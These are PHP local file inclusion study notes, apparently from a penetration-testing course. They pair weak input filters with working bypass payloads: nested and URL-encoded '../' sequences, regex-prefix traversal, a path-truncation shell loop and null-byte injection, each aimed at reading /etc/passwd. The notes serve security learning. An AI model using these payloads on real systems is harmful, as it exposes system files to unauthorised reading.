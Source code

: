 
Security Measure (Replace string)
```php
$language = str_replace('../', '', $_GET['language']);
```
Bypass
```http
http://<SERVER_IP>:<PORT>/index.php?language=....//....//....//....//etc/passwd
```
```http
http://<SERVER_IP>:<PORT>/index.php?language=..././..././..././..././etc/passwd
```
```http
http://<SERVER_IP>:<PORT>/index.php?language=....\/....\/....\/....\/etc/passwd
```
```http
http://<SERVER_IP>:<PORT>/index.php?language=....////....////....////....////etc/passwd
```
```http
http://<SERVER_IP>:<PORT>/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

Security Measure (Regex) ** Ensure Path includes correct base directive in this case languages**
```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```
Bypass
```http
http://<SERVER_IP>:<PORT>/index.php?language=./languages/../../../../etc/passwd
```

Security Measure(Path Truncation) PHP defined string character limit is 4096 characters
1. Determine long path to make
2. Include disregarded pathing techniques(/etc/passwd/. & ////etc/passwd & /etc/./passwd)
3. Create Path
```shell-session
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```

Security Measure(Append File extension)
```php
$language = append_string($_GET['language'],'.php');
```

Bypass (Before php 5.5)
Null byte injection
```
/etc/passwd%00.php
```

